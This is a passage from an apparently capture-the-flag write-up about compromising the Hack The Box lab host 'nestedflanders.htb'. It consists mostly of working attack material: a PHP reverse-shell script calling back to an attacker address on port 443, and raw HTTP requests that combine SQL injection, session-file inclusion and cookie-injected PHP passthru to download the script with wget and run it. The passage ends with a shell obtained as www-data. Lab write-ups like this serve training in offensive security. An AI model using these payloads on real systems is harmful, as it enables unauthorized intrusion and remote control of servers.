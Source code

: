 ```
-A OUTPUT -o ens33 -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m multiport --dports 80,443 -j ACCEPT
-A OUTPUT -o ens33 -p icmp -j ACCEPT
COMMIT
# Completed on Wed Dec 19 21:55:49 2018
";<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->

</body>
</html>
```
<br> We can only get a reverse shell on ports 443 and 80. My problem was trying to get a connection on port 1337. 
<br> `nc` wasn't on the box so I used `php` to get a reverse shell.
<br> `shell.sh` :
```
#!/bin/bash
php -r '$sock=fsockopen("10.10.xx.xx",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
<br> I started a python server on port 80 then I downloaded the shell file on the box and executed it :
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_c5vmccsqkle2rdionj28kit221%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=c5vmccsqkle2rdionj28kit221; RCE=<?php passthru('cd /tmp && wget http://10.10.xx.xx/shell.sh')?>;
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_c5vmccsqkle2rdionj28kit221%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=c5vmccsqkle2rdionj28kit221; RCE=<?php passthru('cd /tmp && sh shell.sh')?>;
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
<br> And we get a shell as `www-data` :
